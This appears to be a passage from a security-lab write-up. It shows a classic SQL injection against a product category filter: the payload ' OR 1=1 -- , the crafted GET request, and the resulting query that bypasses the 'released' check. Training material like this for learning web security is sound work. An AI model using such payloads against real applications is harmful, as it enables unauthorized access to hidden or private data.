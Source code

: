 # 1. SQL injection
## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
### Exploit
We can pass the following payload to the category input to retrieve hidden data `' OR 1=1 -- `

`GET /filter?category='+OR+1=1+--`

The executed SQL query will look like this:
```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- ' AND released = 1
``` 
The `--` is used to comment out the rest of the query, so the `AND released = 1` is ignored.

<p align="center">
  <img src="/captures/01.01.png"><br/>
</p>

